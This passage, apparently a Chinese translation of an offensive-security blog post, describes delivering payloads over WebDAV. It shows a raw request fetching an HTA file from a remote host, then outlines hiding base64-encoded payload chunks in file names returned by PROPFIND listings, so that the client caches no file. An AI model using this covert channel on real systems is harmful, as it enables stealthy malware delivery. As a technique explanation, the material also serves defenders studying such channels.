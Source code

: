 在这一点上，仍然没有实际的文件传输，客户端硬盘上没有缓存文件。

最终，当WebDAV客户端想要访问文件时，它将发出实际传输文件的请求，如下所示：



```
GET /calc.hta HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
User-Agent: Microsoft-WebDAV-MiniRedir/10.0.14393
translate: f
Host: 10.211.55.2
```

WebDAV服务器使用包含请求文件的十分标准的HTTP响应进行回复。 在这一点上，文件被传输并缓存在客户端的驱动器上（C:WindowsServiceProfilesLocalServiceAppDataLocalTempTfsStoreTfs_DAV）。

我们可以看到，上述两个缺点仅在文件实际从服务器传输到客户端时发生。但是事实证明，用于列出目录中的文件的PROPFIND请求也拥有可用于传输任意数据的大量信息。

**<br>**

**仅使用PROPFIND请求**

所以我们想要实现的只是使用PROPFIND请求传输任意数据。我提出了以下想法：

1.    文件名本身就是在列出具有PROPFIND请求的目录时传送的信息。

2.    目录中可能需要/需要的文件数量尽可能多（可能会有一个限制，但仍然可以处理）。

3.    虽然这取决于WebDAV客户端和服务器实现，但每个文件名可以大致为250个字符。

4.    文件名只能支持一定数量的字符（例如'/'和''不支持）

这就让我产生了以下想法，假设给定一个我想传递的Payload，可通过如下步骤处理：

1.    先对其进行base64编码

2.    替换文件名中不支持的所有字符（用'_'替换'/'，这似乎是常见的做法）

3.    将其切成250个字符的块

4.    使其可用作目录名

在远端，我需要找到一种方法：

1.    只列出虚拟目录上的文件（不GET任何东西）

2.    重组那些块

3.    将替换的字符替换回来

4.    将base64结果解码回初始Payload

所有这些都需要付出代价：大量的性能和通信浪费。但它可以让我们摆脱上述两个缺点！

为了实现这一点，我创建了一个（快速并且写的很差的）python脚本，它的行为就像一个非常非常简约的WebDAV服务器（仅支持OPTIONS和PROPFIND请求）。但这只是足以满足我们的需求。使用有效载荷文件作为参数调用此脚本，以及要使用的base64编码类型（与powershell兼容或不兼容），并将在端口80上启动WebDAV服务器：

[![](https://p1.ssl.qhimg.com/t011244cc3a76675a93.png)](https://camo.githubusercontent.com/53fe8a5dda093f939acc0c0226bdecc4d22561ef/68747470733a2f2f646c2e64726f70626f7875736572636f6e74656e742e636f6d2f732f6b76656175666b30366a6c376333622f7765626461765f30322e706e673f646c3d30)
